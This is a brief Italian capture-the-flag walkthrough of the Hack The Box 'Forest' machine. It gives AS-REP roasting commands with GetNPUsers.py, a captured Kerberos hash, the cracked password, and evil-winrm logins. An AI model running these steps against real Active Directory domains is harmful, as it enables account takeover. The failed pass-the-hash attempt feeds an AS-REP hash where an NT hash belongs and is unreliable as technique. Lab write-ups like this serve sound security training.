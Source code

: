 KRoasting:

./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request

$krb5asrep$23$svc-alfresco@HTB.LOCAL:ec4d096609a114fdd785e8801296118b$d4d812103974b1956e271eba42443d7c7a730d8b8d51a3c9f95e2c689f7cf8d14d2852e56bc450307450b6dc0a81bfd3b7aa12daf6e8272d4075326873068f5c5fedca2fb306364a47ce9419ca852b76d47acb4712d5adaa236bab4e868f306f5cbd35fc78af74708623c68374aefc3ba120217173f91f9eb352fff0ebec23d99a6d479a061eddd60a326e9e3ea68dac62f62314944ef34ee61f31cbf49c02fc1268312aee4e65baa231bdf33d353e7c6f221ce8e7e89a53158f5a8b2672a717231ee3f5040f2bd58dfba3b92132f9d5c331c921978b8b6375673b40ba2456737e8c7e16ed5c

--OPPURE--

python GetNPUsers.py htb.local/ -no-pass -usersfile ../../forest_user.txt -dc-ip 10.10.10.161

Il contenuto di forest_user.txt è dato da enum4linux. Tra cui c'è svc-alfresco che è l'unico per cui si riesce ad estrarre l'hash.

Password dell'hash: s3rvice

--PTH--
Benissimo, ottenuto l'hash finalmente posso mettere in pratica una tecnica che ho sempre voluto provare: la PTH:

evil-winrm -u svc-alfresco -H "6a2929599dd19458e2c15587a7c870e5$d7a17216a7094b7ddece4533f3255c63b0906bfde35e2bdb75c40bff8f791a2a0d80d905e8d306a5d1e1060a9cb7c44f652caf14c7e74138259ddda20a9a1040a236d708f183cae602c195261bf614a381d822b11ecf3870becd7a1b4f7c9db4339023bf7aa7d5e7ddf00836385f075f52a814e63df0826a4b6937d3789bafa0c2c9735bbd9378b50125db20fad4a884b4e7f298cb5a8e244fa31b4c379a9131f4977ff4bd5a270e3d6e52e3ae32bdd550312cdba3ea40891033b330791bc3415a709fcd592165b3e4a6b0150a58f1ffe962a9a2783d4b973c99c118cae4535030169f2c8f63" -i 10.10.10.161

Come non detto, quella tecnica non funziona, entro con la password:

evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
